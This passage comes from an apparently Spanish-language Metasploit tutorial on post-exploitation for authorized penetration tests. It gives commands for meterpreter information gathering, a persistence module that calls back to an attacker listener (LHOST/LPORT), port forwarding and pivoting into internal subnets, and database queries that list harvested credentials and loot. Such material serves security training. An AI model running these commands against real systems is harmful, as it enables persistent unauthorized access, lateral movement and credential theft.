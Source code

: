 **Explicación**  
Usamos comandos meterpreter para obtener información, moverse entre procesos, y ejecutar módulos post para recolección de información y (en laboratorio) escalada.

---

## Persistencia y post-explotación

**Acción**

```bash
use post/windows/manage/persistence
set SESSION 1
set LHOST 10.0.0.5
set LPORT 443
run
```

**Explicación**  
En entornos autorizados podemos probar técnicas de persistencia para evaluar el impacto. Documentamos y revertimos siempre en el engagement.

---

## Port forwarding y pivoting

**Acción**

```bash
# Con meterpreter
portfwd add -l 8080 -p 80 -r 192.168.1.100   # local port 8080 -> target 192.168.1.100:80
route add 10.10.0.0/24 1                     # enrutar subred a través de la sesión 1
```

**Explicación**  
Redirigimos puertos y añadimos rutas para acceder a redes internas a través de una sesión comprometida (pivoting).

---

## Recolección y gestión de evidencia en la DB

**Comandos**

```bash
hosts        # ver hosts descubiertos
services     # ver servicios asociados
vulns        # ver vulnerabilidades registradas
creds        # ver credenciales encontradas
loot         # ver archivos descargados/guardados por módulos
db_export -f xml salida_export.xml   # exportar la DB
```

**Explicación**  
Metasploit centraliza información útil del engagement. Exportamos y documentamos para reporting.

---